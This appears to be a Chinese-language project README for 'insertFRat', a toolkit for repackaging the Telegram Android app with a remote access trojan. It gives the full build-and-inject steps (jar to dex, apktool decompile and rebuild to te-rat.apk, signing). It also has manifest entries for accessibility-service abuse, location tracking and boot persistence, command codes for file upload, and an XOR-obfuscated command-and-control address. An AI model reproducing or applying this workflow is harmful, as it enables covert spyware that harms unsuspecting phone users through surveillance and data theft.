 # Android码（Telegram）
### insertFRat

此项目用于生成部分需要添加的smali代码，如myService中动态加载包含RAT逻辑的jar并执行，注册屏幕监听事件。

#### 生成方式

### Telegram 编译打包
## gradlew makeJar  // 生成jar
## dx --dex --output ratdex.jar rat.jar // 转换jar
## java -jar apktool_2.4.1.jar d app-debug.apk // 反编译APK，得到smail
## java -jar apktool_2.4.1.jar b .\Telegram_v6.3.0_apkpure.com -o te-rat.apk
## jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keypass 123456 -storepass 123456 -keystore demo.keystore te-rat.apk demo.keystore

#### 指令返回
## 0          //success
## 10001      //没有权限，无法执行操作
## 10002      //文件上传失败，请重试
## 10003      //指令参数错误，参数为目录
## 10004      //文件夹已存在
## 10005      //文件夹创建失败

#### Telegram 配置
#### File_path smali_classes2
### AccessibilityService
## <service
##     android:name="com.hhm.android.otherapp.myService"
##     android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
##     <intent-filter>
##         <action android:name="android.accessibilityservice.AccessibilityService"/>
##     </intent-filter>
##     <meta-data
##         android:name="android.accessibilityservice"
##         android:resource="@xml/accessibility"/>
## </service>

### 高德地图
## <service android:name="com.amap.api.location.APSService" />
## <meta-data
##     android:name="com.amap.api.v2.apikey"
##     android:value="9ca8190b472b1e379bb7b11943b60618" />

### 开机自启动
## <uses-permission android:name="android.permission.DISABLE_KEYGUARD" />
## <receiver
##     android:name="com.hhm.android.otherapp.BootReceiver"
##     android:enabled="true"
##     android:exported="true"
##     android:priority="1000">
##     <intent-filter android:directBootAware="true">
##         <action android:name="android.intent.action.BOOT_COMPLETED" />
##         <action android:name="android.intent.action.LOCKED_BOOT_COMPLETED" />
##         <action android:name="android.intent.action.QUICKBOOT_POWERON" />
##         <action android:name="android.intent.action.REBOOT"/>
##         <category android:name="android.intent.category.HOME" />
##     </intent-filter>
## </receiver>

## 异或加密 Base64Util.encode(XorUtil.xor("192.168.3.86:8001")
